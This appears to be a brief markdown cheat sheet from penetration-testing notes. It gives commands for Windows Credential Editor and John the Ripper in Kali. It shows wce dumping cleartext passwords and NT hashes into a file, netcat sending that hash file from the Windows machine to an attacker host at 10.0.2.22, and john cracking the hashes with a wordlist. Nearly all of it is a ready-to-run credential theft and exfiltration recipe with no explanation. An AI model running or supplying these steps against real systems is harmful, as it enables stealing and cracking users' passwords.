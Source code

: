 

## Windows Credential Editor in Kali

/usr/share/wce

```
  wce -w


  wce -g
```

## Use John in Kali
```
  # get hashed password in windows
  wce -l -o remhash.txt

  # in windows, pass the file to kali
  nc 10.0.2.22 60000 < remhash.txt

  # in kali, receive the file
  nc -l -p 60000 > remhash.txt

  # run john in kali
  john --format=NT --wordlist=/usr/share/john/password.lst remhash.txt
```

